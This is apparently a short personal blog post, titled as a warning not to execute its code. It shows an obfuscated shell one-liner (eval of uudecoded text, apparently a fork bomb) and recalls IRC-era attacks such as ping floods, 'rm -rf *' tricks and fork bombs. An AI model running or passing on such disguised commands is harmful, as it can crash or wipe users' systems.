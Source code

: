 ```yaml
---
layout: post
title: DO NOT EXECUTE THIS!!!
---
```


```
eval $(echo "I<RA('1E<W3t`rYWdl&r()(Y29j&r{,3Rl7Ig}&r{,T31wo});r`26<F]F;==" | uudecode)
```
Source: [https://www.vidarholen.net/contents/blog/?p=766]  
<br>
  
  
&emsp;&emsp;This was an interesting find. I started getting curious about computers around the IRC days. In those days, a lot of people were scripting their clients to produce ASCII art (back when it was a thing), but then there were others that realized it was possible to do more sinister stuff. For example, by flooding someone with a ping request it was possible to overload a target's network card/modem and cause them to disconnect (mind you this was dial up). This along with suggesting them to press `alt + F4` and `ctrl + alt + del`. 


&emsp;&emsp;And of course, there were those who were suggesting people to run commands similar to `rm -rf *` (or delete the Program Files folder). Somewhere around that time, I learnt about fork bombs and billion laughs. There was no wikipedia or youtube around then, just plain sites on geocities or all over the net wherever people could host time. 


&emsp;&emsp;Reading this article reminded me that the simplest attack is really just to disable a service/system, a Denial-Of-Service. It may not be complex or sophisticated but has cost implications (at the very least, time cost). Even with redundancies and self replicating microservices of today, it is just as easy for threat actors to scale themselves as well. Nowadays, even as most threat actors attempt to discreetly and covertly compromise a system, entrench their foothold and survey the internal network, sometimes they will use DOS for a good distraction. 


&emsp;&emsp;There were many who used to make fun of script kiddies. We don't really hear it that much anymore. Plus, almost everyone nowadays uses some sort of framework with pre-configured vulnerabilities and paylods.






